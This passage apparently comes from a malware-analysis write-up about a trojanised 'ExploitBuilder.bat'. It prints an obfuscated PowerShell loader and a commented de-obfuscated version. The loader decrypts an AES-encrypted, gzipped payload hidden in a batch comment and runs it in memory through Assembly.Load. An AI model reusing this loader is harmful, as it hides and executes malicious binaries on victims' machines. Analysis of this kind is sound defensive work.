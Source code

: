 ```ps1
$CfOAS = $hbvqO.CreateDecryptor();
$VGGCQ = $CfOAS.TransformFinalBlock($VGGCQ, 0, $VGGCQ.Length);
$CfOAS.Dispose();
$hbvqO.Dispose();
$YVjlv = New-Object System.IO.MemoryStream(, $VGGCQ);
$iJFSw = New-Object System.IO.MemoryStream;
$uwkaq = New-Object System.IO.Compression.GZipStream($YVjlv, [IO.Compression.CompressionMode]::Decompress);
$uwkaq.CopyTo($iJFSw);
$uwkaq.Dispose();
$YVjlv.Dispose();
$iJFSw.Dispose();
$VGGCQ = $iJFSw.ToArray();
$WtHIs = [System.Reflection.Assembly]::('daoL'[-1..-4] -join '')($VGGCQ);
$iFZWS = $WtHIs.EntryPoint;
$iFZWS.Invoke($null, (, [string[]] ('%*')))
```

If I did not mention this earlier, I'm not good with windows OS and powershell scripting, but with decent knowledge about programming/scripting languages and a text editor of choice, it was not so hard to make this code understandable. De-obfuscated file can be found on github here -> https://github.com/ayedaemon/Exe-to-pdf/blob/main/powershell_command_deobfuscated.txt


```ps1
## Read the initial payload file
$payload = [System.IO.File]::('txeTllAdaeR'[-1..-11] -join '')('/ExploitBuilder.bat').Split([Environment]::NewLine);

## Get the line starting with `:: `; This also acts as the comment in batch scripting
foreach ($each_line in $payload) { 
    if ($each_line.StartsWith(':: ')) {
        $comment_line = $each_line.Substring(3);
        break; 
    }; 
};

## Decode the comment line with "Military grade AES encryption"
$decoded_comment_line = [System.Convert]::('gnirtS46esaBmorF'[-1..-16] -join '')($comment_line);
$cryptObj = New-Object System.Security.Cryptography.AesManaged;
$cryptObj.Mode = [System.Security.Cryptography.CipherMode]::CBC;
$cryptObj.Padding = [System.Security.Cryptography.PaddingMode]::PKCS7;
$cryptObj.Key = [System.Convert]::('gnirtS46esaBmorF'[-1..-16] -join '')('wYPqphQqHyVIeW2CaPqkTUCy/0ecJs6agKij7Q3HRY4=');
$cryptObj.IV = [System.Convert]::('gnirtS46esaBmorF'[-1..-16] -join '')('E55hmIoW8UIQx1ajzTvfAA==');
$decryptObj = $cryptObj.CreateDecryptor();
$decrypted_comment_line = $decryptObj.TransformFinalBlock($decoded_comment_line, 0, $decoded_comment_line.Length);
$decryptObj.Dispose();
$cryptObj.Dispose();

## Shuffle the data throught memory streams and decompress it (gzip decompression)
$decrypted_stream = New-Object System.IO.MemoryStream(, $decrypted_comment_line);
$extra_stream = New-Object System.IO.MemoryStream;
$ungzip_decrypted_stream = New-Object System.IO.Compression.GZipStream($decrypted_stream, [IO.Compression.CompressionMode]::Decompress);
$ungzip_decrypted_stream.CopyTo($extra_stream);
$ungzip_decrypted_stream.Dispose();
$decrypted_stream.Dispose();
$extra_stream.Dispose();

## Load the final binary and execute it
$asm = [System.Reflection.Assembly]::('daoL'[-1..-4] -join '')($decrypted_array);
```

[^1]: https://www.netspi.com/blog/technical/network-penetration-testing/15-ways-to-bypass-the-powershell-execution-policy/
[^2]: https://www.offensive-security.com/offsec/powershell-obfuscation/
[^3]: https://rada.re/n/radare2.html